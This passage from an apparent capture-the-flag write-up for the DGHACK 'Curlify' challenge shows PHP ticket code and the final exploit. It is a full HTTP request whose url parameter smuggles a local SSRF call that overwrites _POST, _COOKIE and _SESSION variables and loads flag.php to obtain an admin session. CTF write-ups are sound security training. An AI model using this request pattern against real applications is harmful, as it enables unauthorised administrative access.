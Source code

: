 ```php
 42 
 43         fwrite($fp, $content);
 44         fclose($fp);
 45 
 46         return '
 47                 <div class="notification is-success">Ticket with id ' . $ticket_id . ' created</div>
 48                 <div class="notification is-info">Your ticket will be treated and removed in a few seconds (estimated time: ~5 seconds)</div>
 49             ';
 50 
 51     }
 52 
 53 }
```

We'll need to manually set the `userid` to get the flag in `user_prefs` :

```php
 34             if ($_SESSION["userid"]) {
 35                 $content .= "UserId: " . $_SESSION["userid"] . "\n";
 36                 if ($_SESSION["user_prefs"]) $content .= "Preferences: " . $_SESSION["user_prefs"] . "\n";
 37             }
```

So here is the final request :

```
POST /index.php HTTP/2
Host: curlify3.chall.malicecyber.com
User-Agent: DGHACK/1.0 (Curlify)
Set-Cookie: PHPSESSID=jad99t1ql8p3oqi9ml7v3r7l4j
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 249
Origin: https://curlify3.chall.malicecyber.com
Referer: https://curlify3.chall.malicecyber.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

url=http%3a%2f%2f127.0.0.1%2fadmin_panel%2findex.php%3f_POST%5busername%5d%3dadmin%26_COOKIE%5bremember_me%5d%3dadmin7a988e11680f9e151f6f46808690d5ca%26DEFAULT_LANGUAGE%3dflag.php%26_SERVER%5bHTTP_ACCEPT_LANGUAGE%5d%3dl33t%26_SESSION%5buserid%5d%3d1
```

Now we can get our session in the response :

```
Set-Cookie: PHPSESSID=6mjjmtpp7jndbb588rbhv0ocrs; path=/
```
